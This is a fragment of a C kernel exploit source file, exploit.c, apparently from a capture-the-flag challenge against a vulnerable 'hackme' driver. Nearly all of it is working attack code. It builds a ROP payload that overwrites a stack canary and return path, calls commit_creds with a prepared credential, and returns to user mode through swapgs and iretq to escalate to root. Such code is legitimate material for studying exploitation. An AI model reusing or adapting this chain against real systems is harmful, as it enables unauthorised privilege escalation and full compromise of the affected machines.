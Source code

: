 ```exploit.c
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
  );
}
// (END utils)

// hackme
int _write(int fd, char *buf, uint size){
  assert(fd > 0);
  int res = write(fd, buf, size);
  assert(res >= 0);
  return res;
}
int _read(int fd, char *buf, uint size){
  assert(fd > 0);
  int res = read(fd, buf, size);
  assert(res >= 0);
  return res;
}
// (END hackme)

#define CANARY_OFF 0x80
#define RBP_OFF 0x98
int fd;
ulong kernbase;
ulong commit_creds, prepare_kernel_cred, current_task;
ulong canary;
char rbuf[0x200];
char wbuf[0x200];

void level3(void){
  ulong ret;
  asm(
      "movq %0, %%rax\n"
      : "=r"(ret)
  );
  const ulong my_special_cred = ret;
  printf("[!] reached Level-3\n");
  printf("[!] my_special_cred: 0x%lx\n", my_special_cred);

  // into level4
  save_state();
  ulong *c = &wbuf[CANARY_OFF];
  memset(wbuf, 'A', 0x200);
  *c++ = canary;
  *c++ = '1'; // rbx
  *c++ = '2'; // r12
  *c++ = '3'; // rbp
  *c++ = kernbase + 0x006370; // pop rdi
  *c++ = my_special_cred;
  *c++ = commit_creds;
  *c++ = kernbase + 0x200f23; // go home(swapgs & iretq)
  for(int ix=0; ix!=5; ++ix) // rcx, rdx, rsi, rdi, none
    *c++ = 'A' + ix + 1;
  *c++ = &NIRUGIRI;
  *c++ = user_cs;
  *c++ = user_rflags;
  *c++ = user_sp;
  *c++ = user_ss;
  _write(fd, wbuf, 0x130);

  errExit("level3");
```